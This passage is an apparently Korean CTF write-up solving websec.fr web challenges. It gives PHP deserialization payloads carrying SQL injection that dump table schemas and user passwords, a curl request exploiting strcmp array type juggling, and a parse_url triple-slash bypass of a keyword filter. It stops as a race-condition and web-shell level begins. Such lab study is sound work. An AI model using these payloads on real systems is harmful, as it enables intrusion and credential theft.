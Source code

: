    users라는 문자열이 출력

   ```
   O:3:"SQL":1:{s:5:"query";s:64:"select sql as username from sqlite_master where tbl_name='users'";}
   ```

   이걸로 테이블정보를 긁어옴.

   ```
   O:3:"SQL":1:{s:5:"query";s:38:"select password as username from users";}
   ```

   이걸로 해결

   이 문자열들은 php의 serialize한 결과물인데 대충 살펴보면 아래와 같다.

   ```
   O:strlen(object):object name:object 갯수:{s:strlen(property):property name:property 길이;}
   ```

   

   

3. level17

이번엔 가장 쉬운 것 같다. php의  strcmp함수 취약점을 이용한 문제인데, 그냥 배열값을 문자열과 비교해주면 해결.

```c
curl "https://websec.fr/level17/index.php" \
    --data 'flag[]=1'
```



4. <h3>level25

이건 parse_url버그를 이용하는 문제.

```php
 <?php
                  parse_str(parse_url($_SERVER['REQUEST_URI'])['query'], $query);
                  foreach ($query as $k => $v) {
                      if (stripos($v, 'flag') !== false)
                          die('You are not allowed to get the flag, sorry :/');
                  }

                  include $_GET['page'] . '.txt';
                  ?>
```



이렇게 있는데 어차피 인풋으로 들어가는 값을 ///를 첨부하여 넣게되면 //가 http://로 작동하고, 3번째 /가 경로를 구분하는 역할을 하면서 에러가 발생한다. 문제에서는 쿼리값에 flag가 없으면 해결되니까 ///로 아래오 같이 우회하자. 

```
http://websec.fr///level25/index.php?page=flag
```

5. <h3>level28

이번에는 레이스컨디션이랑 웹쉘이다. 코드를 우선 확인하자.
